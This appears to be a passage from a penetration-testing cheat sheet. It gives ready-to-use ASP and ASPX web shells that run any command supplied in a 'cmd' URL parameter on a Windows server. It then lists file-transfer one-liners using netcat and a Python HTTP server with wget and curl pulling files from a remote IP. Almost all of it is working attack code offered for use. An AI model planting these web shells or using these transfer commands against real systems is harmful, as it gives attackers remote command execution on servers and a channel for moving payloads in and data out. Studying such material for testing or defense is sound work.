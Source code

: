 ### ASP
```asp
<% Set rs = CreateObject("WScript.Shell").Exec(Request.QueryString("cmd")) 
o = rs.StdOut.Readall() 
Response.write(o) %>
```

### ASPX
```aspx
<%@ Page Language="C#" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e)
{
    if (Request.QueryString["cmd"] != null)
    {
        Process p = new Process();
        p.StartInfo.FileName = "cmd.exe";
        p.StartInfo.Arguments = "/c " + Request.QueryString["cmd"];
        p.StartInfo.UseShellExecute = false;
        p.StartInfo.RedirectStandardOutput = true;
        p.Start();
        Response.Write("<pre>" + p.StandardOutput.ReadToEnd() + "</pre>");
        p.Close();
    }
}
</script>
```

## File Transfer Techniques

### Linux

#### Using Netcat
```bash
# Receiver
nc -lvp 4444 > file.txt

# Sender
nc 10.10.10.10 4444 < file.txt
```

#### Using Python HTTP Server
```bash
# Sender
python -m SimpleHTTPServer 8000
python3 -m http.server 8000

# Receiver
wget http://10.10.10.10:8000/file.txt
curl http://10.10.10.10:8000/file.txt -o file.txt
```

